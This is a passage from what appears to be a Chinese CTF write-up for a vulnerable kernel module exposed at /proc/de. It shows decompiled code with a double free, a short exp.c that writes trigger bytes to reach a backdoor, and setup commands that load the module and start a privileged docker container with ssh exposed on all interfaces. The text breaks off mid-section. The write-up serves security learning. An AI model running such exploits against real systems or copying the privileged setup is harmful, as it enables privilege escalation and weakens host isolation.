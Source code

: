```c
      printk("RC is: %i \n", v11);
    }
  }
  else
  {
    printk("note free\n", v5);
    kfree(*((_QWORD *)&note + 1));              // double free
  }
  mutex_unlock(&lock);
  return write_size;
}
```

## 漏洞利用

先用一次写清空hack+8的值，之后choice=0xfd调用后门弹计算器

## exp.c

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
    int fd = open("/proc/de",2);
    char *user_buf = (char*)malloc(0x10*sizeof(char));
    user_buf[0] = '\xfe';
    write(fd,user_buf,0x10);
    user_buf[0] = '\xfd';
    write(fd,user_buf,0x1);
    return 0;
}
```

## 调试

进入虚拟机，加载漏洞内核模块，启动docker

```bash
sudo insmod /home/b/de.ko
sudo docker run -itd --privileged -p 0.0.0.0:23:22 d77241e92fe6 /bin/bash -c "/etc/init.d/ssh start;/bin/bash"
```

传输漏洞文件
